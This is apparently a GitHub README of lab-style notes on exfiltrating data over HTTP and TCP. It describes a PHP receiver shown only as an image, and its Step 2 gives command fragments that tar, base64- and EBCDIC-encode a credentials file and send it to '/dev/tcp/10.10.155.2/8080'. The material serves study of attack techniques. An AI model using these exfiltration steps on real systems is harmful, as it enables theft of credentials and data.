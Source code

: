 <h1>Data Exfiltration</h1>

<h2>Description</h2>
This repository will contain the method of performing data exfiltration using HTTP<br />

<h2>Manual Webserver Exfiltration</h2>
<b>Step 1: Create a PHP file</b><br />
Create a PHP file that handles data pass to the webserver:
<p align="center">
  <img src="./imgs/code.png"/>
</p><br/>
<b>Step 2: Transfer Data</b><br />
Next, we'll create an archive of the file using <i>tar zcf</i>, then we'll use <i>base64</i> to encode the data, lastly we'll create a backup <i>dd conv=ebcdic</i> and transfer it using TCP socket <i> > /dev/tcp/10.10.155.2/8080</i>: 
<p align="center">
  <img src="./imgs/data_transfer.png"/>
</p><br/>
<b>Step 3: Decode and Extract the Content</b><br />
Finally, we'll convert the file to ascii <i>dd conv=ascii if=task4-creds.data</i>, decode the base64 <i>base64 -d > task4-creds.data.tar</i>. Lastly
<p align="center">
  <img src="./imgs/view_tcp_content.png"/>
</p><br/>


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
